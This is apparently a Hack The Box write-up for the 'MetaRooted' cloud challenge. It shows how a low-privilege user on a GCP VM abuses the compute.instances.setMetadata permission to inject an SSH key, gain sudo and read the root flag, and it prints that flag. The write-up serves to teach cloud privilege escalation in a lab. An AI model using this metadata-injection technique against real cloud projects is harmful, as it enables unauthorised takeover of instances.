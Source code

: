 ![banner](MetaRooted.assets/banner.png)



<img src="MetaRooted.assets/htb.png" style="margin-left: 20px; zoom: 40%;" align=left />        <font size="10">MetaRooted</font>

​	2<sup>nd</sup> May 2024 / Document No D24.102.66

​	Prepared By: polarbearer

​	Challenge Author(s): felamos, polarbearer

​	Difficulty: <font color=green>Easy</font>

​	Classification: Confidential													

# Synopsis

MetaRooted is an Easy cloud challenge. Players are given access to a Linux VM instance and have to identify account permissions to set metadata, and leverage this to escalate privileges on the VM instance.

# Description

You have obtained unprivileged access to a Linux machine that controls one of the many vault alarm systems. In order to deactivate the alarms and proceed with your quest, you must escalate your privileges to `root`.  You may login via SSH using the provided private key.

- IP Address: `34.132.25.162`
- Username: `vaultuser`

# Flag

`HTB{iam.root.becauseiwasgivenTooManyPrivileges}`

# Solution

We log in to the VM instance using the provided SSH key. We don't seem to be part of any interesting groups.

```bash
vaultuser@vault-instance:~$ id
uid=1002(vaultuser) gid=1003(vaultuser) groups=1003(vaultuser)
```

We can use the GCP CLI management tool `gcloud` to describe the VM instance (by default, the instance name is the same as the machine hostname).

```bash
gcloud compute instances describe vault-instance
```

Among the returned information, the non-standard service account associated with the instance looks interesting.

```yaml
<SNIP>
serviceAccounts:
- email: vault-27@ctfs-417807.iam.gserviceaccount.com
  scopes:
  - https://www.googleapis.com/auth/cloud-platform
shieldedInstanceConfig:
  enableIntegrityMonitoring: true
  enableSecureBoot: false
  enableVtpm: true
shieldedInstanceIntegrityPolicy:
  updateAutoLearnPolicy: true
startRestricted: false
status: RUNNING
tags:
  fingerprint: 42WmSpB8rSM=
zone: https://www.googleapis.com/compute/v1/projects/ctfs-417807/zones/us-central1-a
```

Let's try finding out the roles assigned to our service account `vault-27`. Unfortunately we don't have  the required permissions (`projects.get-iam-policy`) to list the IAM policy for the `ctfs-417807` project.

```bash
gcloud projects get-iam-policy ctfs-417807
```

```
ERROR: (gcloud.projects.get-iam-policy) User [vault-27@ctfs-417807.iam.gserviceaccount.com] does not have permission to access projects instance [ctfs-417807:getIamPolicy] (or it may not exist): The caller does not have permission
```

Let's check if any custom roles exist in the project.

```bash
gcloud iam roles list --project ctfs-417807
```

```yaml
etag: BwYXcLm48_M=
name: projects/ctfs-417807/roles/VaultManager
stage: GA
title: Vault Manager
```

Let's describe the attributes of the `VaultManager` role.

```
gcloud iam roles describe VaultManager --project ctfs-417807
```

```yaml
description: Role for the vault-27 service account (vault-instance VM)
etag: BwYXcxIEKDY=
includedPermissions:
- compute.instances.get
- compute.instances.setMetadata
- iam.roles.get
- iam.roles.list
name: projects/ctfs-417807/roles/VaultManager
stage: GA
title: Vault Manager
```

According to the role description, the `VaultManager` role seems to be assigned to the `vault-27` service account, which we identified earlier as the account associated to the VM instance. Among the various `list` and `get` permissions, we see a `set` permission: `compute.instances.setMetadata`. This allows writing metadata to a compute instance. Searching the web for ways to abuse this permission returns the following [article](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform) from the GitLab red team. We can follow the steps detailed in the article to add a new user with `sudo` permissions and access it via SSH key-based authentication.

```bash
NEWUSER="vaultadmin"
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt
gcloud compute instances add-metadata vault-instance --metadata-from-file ssh-keys=meta.txt
```

```bash
ssh -i ./key "$NEWUSER"@localhost
```

The new account is automatically added to the `google-sudoers` group, which allows us to escalate our privileges to `root` and read the flag in `/root/flag.txt`.

```bash
vaultadmin@vault-instance:~$ id
uid=1003(vaultadmin) gid=1004(vaultadmin) groups=1004(vaultadmin),4(adm),30(dip),44(video),46(plugdev),1000(google-sudoers)
```

```bash
sudo cat /root/flag.txt
```
